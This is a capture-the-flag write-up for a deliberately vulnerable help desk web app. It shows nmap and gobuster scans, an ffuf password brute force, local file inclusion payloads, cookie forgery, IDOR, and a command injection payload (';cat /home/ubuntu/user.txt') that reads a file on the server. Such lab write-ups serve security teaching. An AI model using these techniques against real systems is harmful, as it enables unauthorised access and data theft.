---

## Introduction

- Difficulty: Medium
- Time: 60 mins

> A new internal Support Operations Platform has been deployed to assist IT and helpdesk teams. The application handles user management, internal APIs, and system-level operations. However, security was not the primary focus during development. Several features rely on user-controlled input and weak trust boundaries.

> Can you pentest the platform and escalate your access to achieve RCE on the server?

---

## Reconnaissance

`nmap` scan here is of no use. But as a first step, we perform a port scan.

```sh
$ nmap -sC -sV -T4 10.114.168.185
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-17 19:29 +0530
Nmap scan report for 10.114.168.185
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 99:4c:69:2c:bc:6b:4d:36:af:82:9c:c1:fb:d9:c8:53 (ECDSA)
|_  256 27:2d:72:7f:4b:d3:68:b7:25:c5:f1:54:b8:93:88:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Support Operations Panel
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.62 seconds
```

We have an Apache web server at 80. It's a simple login page.



Submitting random credentials gives us "Invalid credentials" as response. Also investigating network traffic, we see a `POST` request being made to `/` for checking validity of credentials. We will come to this later.

### Directory Enumeration

We will use `gobuster` to map out the directory structure by fuzzing for directories from a wordlist.

```sh
$ gobuster dir -u http://10.114.168.185 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x php,txt,html

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.168.185
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
includes             (Status: 301) [Size: 319] [--> http://10.114.168.185/includes/]
js                   (Status: 301) [Size: 313] [--> http://10.114.168.185/js/]
logout.php           (Status: 302) [Size: 0] [--> index.php]
api.php              (Status: 302) [Size: 0] [--> index.php]
config.php           (Status: 200) [Size: 0]
info.php             (Status: 200) [Size: 73329]
skins                (Status: 301) [Size: 316] [--> http://10.114.168.185/skins/]
index.php            (Status: 200) [Size: 2591]
layout               (Status: 301) [Size: 317] [--> http://10.114.168.185/layout/]
footer.php           (Status: 200) [Size: 1253]
dashboard.php        (Status: 302) [Size: 0] [--> index.php]
Progress: 5123 / 224648 (2.28%)^C
```

Some interesting files and directories pop up. Visiting each can give some info about it. The most interesting ones are `info.php`, `config.php`, `api.php` and `skins/`.

If you visit the `info.php` page, you will see whole lot of debug information. It's basically a file with the contents like this:

```php
<?php phpinfo(); ?>
```

## Bruteforce Login

At the home page, we had a login page. It is evident that the backend server is a PHP server. So there is server-side credential validation. Probably a backend SQL database. I checked for some usual SQLi inputs, but none of them worked, indicating no SQL backend database. The only option left is bruteforcing. As a hint, we get an email, `help@support.thm`. We can use this to brute force its password. I used `ffuf`. You can use anything similar.

```sh
$ ffuf -u http://10.114.168.185 \
       -X POST \
       -d 'email=help%40support.thm&password=FUZZ' \
       -H 'Content-Type: application/x-www-form-urlencoded' \
       -w /usr/share/wordlists/rockyou.txt \
       -fs 2678

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.114.168.185
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=help%40support.thm&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2678
________________________________________________

s*****                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 245ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

We got the password. Now lets login.

## Local File Inclusion



This is the dashboard page of helpdesk user. The only two clickable options in this page are **Logout** and **Select Theme**.

**Select Theme** is a dropdown list containing color themes, which when clicked, gets applied to the website. You can check that for yourself. But on clicking one theme, notice the change in the address bar.

```
http://10.114.168.185/dashboard.php?skin=green
```

Do you remember that `skins/` directory we found during directory enumeration? Let's take a look at `http://10.114.168.185/skins`.



The address bar change and the above directory contents screams **LFI** !!!

> [!tip] Explanation
> Basically what is happening is that, the `dashboard.php` file is taking a `GET` parameter `?skin=<input>` which then finds the file at `/var/www/html/skins/<input>.php`. When this happens, it is possible to input specially crafted payloads to achieve **Local File Inclusion**.

> [!question] What is Local File Inclusion?
> Its a web vulnerability where a backend scripting engine includes local files based on user input. Like in this case, based on the `skin` parameter, the server builds the file path and renders it. Since the filepath is based on user input, if it is not sanitised properly, attackers can input malicious input and get access to files which were never intended to be read. This is Local File Inclusion.

So we had found 3 interesting files during directory enumeration. We can try to craft payloads that will help us read those files through the `?skin=` parameter.

Let's try this:

```
http://10.114.168.185/dashboard.php?skin=../config
```

At the server side, it translates to this file `/var/www/html/skins/../config.php` which is equivalent to `/var/www/html/config.php`.



First thing we notice, the styling of the header is gone. Checking the source, we see extra PHP code which breaks the HTML.



We get a master password. Save this for later.

## Admin Login

We also had another interesting file `api.php`. We can also try to read that using the same LFI payload.

```
http://10.114.168.185/dashboard.php?skin=../api
```



If we simply try to access `/api.php` we get "Access Denied". As we can see in the source of `api.php`, there is a check which sees whether the value of the cookie `isITUser` is set as the MD5 version of the string `false`. If it is `false` we are denied access. Lets just change the cookie value to the MD5 value of `true` manually.

```sh
$ echo -n 'true' | md5sum
b326b5062b2f0e69046810717534cb09  -
```



On refreshing the page we see a new section appears.



Clicking "View API", we can finally view `/api.php`



It contains the documentation for an internal API. According to it, there is a `/user` endpoint, where we can get user details.



Of course, we can check for IDOR by visiting `/user/1`.



So we have an admin email and we had a password from earlier while we were exploiting LFI to read `config.php`. Now here is the funny part. If we use those creds to login, we will be greeted with "Invalid credentials". I can't explain why this works but this works. Whatever email you got, use that and just remove the `@` character from the password you got and then you can login. And we are logged in as admin. The admin page contains the Task 1 flag.



## Remote Code Execution

Check the admin page properly for a new dropdown beside theme selector.



Selecting an option, either Time or Date, will give the current server time or date. Checking network traffic, we see that it actually sends a shell command as the `POST` body, runs it on the server and displays the response. We can easily modify the request and chain commands using the shell operator `;` which helps us run multiple commands together.



Just click on the Resend button in the Network tab to resend the request by modifying the `POST` body. Our payload in this case will be `;cat%20/home/ubuntu/user.txt`.

> [!note] Note for non-Firefox users
> The Resend button in the Network is only available in Firefox or other Firefox-derived browsers. For Chromium derived browser users, use BurpSuite or Postman to send custom requests. Or if you are high enough, use `curl`.



There you go! And we have the user flag!
